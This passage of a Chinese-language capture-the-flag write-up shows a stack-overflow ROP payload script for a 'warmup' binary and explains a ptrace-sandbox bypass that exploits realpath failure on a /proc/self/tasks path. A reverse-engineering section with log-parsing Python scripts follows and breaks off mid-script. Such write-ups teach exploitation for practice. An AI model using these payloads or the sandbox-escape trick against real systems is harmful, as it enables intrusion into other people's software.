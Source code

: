 ```
payload = 'D'*0x20 + p32(0x080480D8) + 'DDDD' * 3 + p32(0x08048122)
r.send(payload * 3)
#send flag
payload = 'C'*0x20 + p32(read) + p32(0x0804815A) + p32(0) + p32(data) + p32(len(flag)) + flag
r.send(payload)
# eax = 5
payload = 'D'*0x20 + p32(read) + p32(add_esp) + p32(0) + p32(buf) + p32(5) + 'd'*5
r.send(payload)
print r.recv(1024)

```

0x09 Sandbox(Exploit)
=====

这道题给了warmup的sandox程序。逆向分析发现他通过ptrace限制了warmup只能调用open，read，write，alarm，exit，mmap，mprotect这些系统调用。并且open的第一个参数只能是”/home/warmup/flag”，但是这个处理逻辑可以绕过：

当realpath的的第一个参数这个文件不存在的时候返回NULL。将文件地址写成“/proc/self/tasks/7777/../../../../home/sandbox/flag”，然后不断连接生成进程，当warmup的pid为7777时，sandbox的realpath调用返回NULL，同时warmp成功open了flag，就可以读取flag了。

![p18](http://drops.javaweb.org/uploads/images/0dbc7bdf7f0cd77d0e0cd893e6d96ffd57212df0.jpg)

0x0A Trace(Reverse)
=====

题目给了一个trace log。首先通过grep jal可以得到所调用的所有函数的起始地址，接着grep jr r31得到函数的结束地址，总共3个函数：00400770，004007d0，00400858，分别为strlen，strcpy和一个递归的快排。从log中根据地址剔去这几个函数的代码得到主函数，主函数首先生成了a-zA-Z0-9{} + flag这样的一个字符串，然后对其进行快排，接着对结果开始对比是否前一个字符串是否和后面的相同。

分析log可以手工将后面对比是否相同的代码分解成几个基本块，接着写脚本分析基本块得到flag包含的字符：0111355555699cfkllmrrstt{}。

```
#!/usr/bin/python2
import string
start = 0
table = string.digits + string.ascii_uppercase + string.ascii_lowercase+ '{}'
result = ''
i = 0
with open('./tail.log') as f:
    for line in f:
        if '[INFO]00400b90' in line:
            flag = True
        elif '[INFO]00400bbc' in line:
            flag = False
            i += 1
        elif '[INFO]00400bc8' in line and flag:
            result += table[i]
print result

```

利用同样的方法分析快排程序得到快排结果：

```
import string
table = list(string.ascii_letters + string.digits + '{}') + range(26)
f = open('858.log')
def qsort(s, begin, end):
    t = True
    i, j= begin + 1, begin + 1
    for l in f:
        if 'jr r31' in l:
            return
        elif '004008ac' in l:
            t = True
        elif '004008cc' in l:
```